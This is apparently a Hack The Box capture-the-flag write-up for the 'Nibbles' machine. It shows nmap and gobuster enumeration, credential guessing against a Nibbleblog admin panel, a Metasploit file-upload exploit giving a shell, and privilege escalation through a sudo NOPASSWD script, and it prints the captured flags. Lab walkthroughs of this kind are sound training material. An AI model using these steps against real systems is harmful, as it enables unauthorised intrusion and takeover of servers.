 # Nibbles

## Initial NMAP Scan

```
# Nmap 7.94SVN scan initiated Thu Apr 18 08:02:06 2024 as: nmap -sC -sV --open -A -oA nibbles_initial_nmap_scan 10.129.240.184
Nmap scan report for 10.129.240.184
Host is up (0.12s latency).
Not shown: 654 filtered tcp ports (no-response), 344 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 08:02:45 2024 -- 1 IP address (1 host up) scanned in 39.78 seconds
```

* apache web server on port 80 and ssh on port 22
* curl 10.129.200.170 shows a simple "hello world!"

## Checking the source code of the page reveals:

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

## Visiting [http://10.129.200.170/nibbleblog/](./#visiting-http-10.129.200.170-nibbleblog-shows-a-basic-blog-site-and-at-the-bottom-of-the-page-shows) shows a basic blog site and at the bottom of the page shows:

### &#x20;"Powered by Nibbleblog"

## Searchsploit

```
seachsploit nibbleblog
```

```
Nibbleblog 3 - Multiple SQL Injections  | php/webapps/35865.txt  
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)  | php/remote/38489.rb 
```

## Metasploit

```
msfconsole
use multi/http/nibbleblog_file_upload
set RHOST 10.129.200.170
```

* `show options` tells us we actually need a username and password.

## Gobuster

```
gobuster dir -u http://10.129.200.170/nibbleblog/ -w /usr/share/dirb/wordlists/common.txt
```

```
/admin
/admin.php
/content
/index.php
/languages
/plugins
/README
/themes
```

* [http://10.129.200.170/nibbleblog/content/private/users.xml](http://10.129.200.170/nibbleblog/content/private/users.xml)
  * users.xml shows us there is an admin user.
* [http://10.129.200.170/nibbleblog/content/private/config.xml](http://10.129.200.170/nibbleblog/content/private/config.xml)
  * shows a couple potential passwords:
    * yum yum
    * nibbles

## Blog Login

* [http://10.129.200.170/nibbleblog/admin.php](http://10.129.200.170/nibbleblog/admin.php)
* `admin : nibbles` are the credentials

## Back to Metasploit

```
(Meterpreter 1)(/var/www/html/nibbleblog/content/private/plugins/my_image) > 
getuid 
Server username : nibbler

shell
```

## Shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### User Flag

```
cat ~/user.txt
79c03865431abf47b90ef24b9695e148
```

* in the nibbler user's home directory there is a personal.zip file. unzipping it shows a script file `/home/nibbler/personal/stuff/monitor.sh`
* nothing interesting in the bash script.

## Privilege Escalation

```
sudo -l
```

* Out put shows our user has root NOPASSWD permissions on that monitor.sh file.

### Backup and Edit monitor.sh

```
cp /home/nibbler/personal/stuff/monitor.sh /home/nibbler/personal/stuff/monitor.sh.bak

echo "cat /root/root.txt" >> monitor.sh

sudo /home/nibbler/personal/stuff/monitor.sh
```

### Root Flag

`de5e5d6619862a8aa5b9b212314e0cdd`
